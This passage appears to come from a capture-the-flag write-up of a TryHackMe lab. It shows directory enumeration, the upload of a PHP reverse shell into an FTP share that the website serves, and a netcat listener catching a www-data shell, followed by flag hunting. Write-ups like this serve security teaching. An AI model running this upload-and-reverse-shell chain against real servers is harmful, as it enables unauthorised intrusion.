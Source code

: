 ```
[+] Timeout:                 10s
===============================================================
2023/05/18 17:09:51 Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

There is a directory named `/files` that looks interesting, let's take a look at it : 

<img src="https://i.imgur.com/RGZpf3u.png">

The directory contains the same content as the FTP share. It would appear that the latter is accessible from the web site. I therefore choose to place a php reverse shell in the `ftp/` directory to run it from the website :

```
ftp> put revshell.php 
local: revshell.php remote: revshell.php
229 Entering Extended Passive Mode (|||58360|)
150 Ok to send data.
100% |****************************************************************************|  2582        1.48 MiB/s    00:00 ETA
226 Transfer complete.
2582 bytes sent in 00:00 (38.18 KiB/s)
```

<img src="https://i.imgur.com/c5ZcWoQ.png">

So I get a shell as `www-data` :

```
└─# nc -lvnp 9494
listening on [any] 9494 ...
connect to [10.8.75.8] from (UNKNOWN) [10.10.62.150] 50418
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:26:56 up 47 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## User flag
I retrieve the first flag that contains the secret ingredient from the `/recipe.txt` file :

```
www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

Now let's get the user.txt flag.  
There is the `home` directory of user `lennie`, to which we have no rights :
```
www-data@startup:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Nov 12  2020 .
drwxr-xr-x 25 root   root   4096 May 18 14:39 ..
drwx------  4 lennie lennie 4096 Nov 12  2020 lennie
```
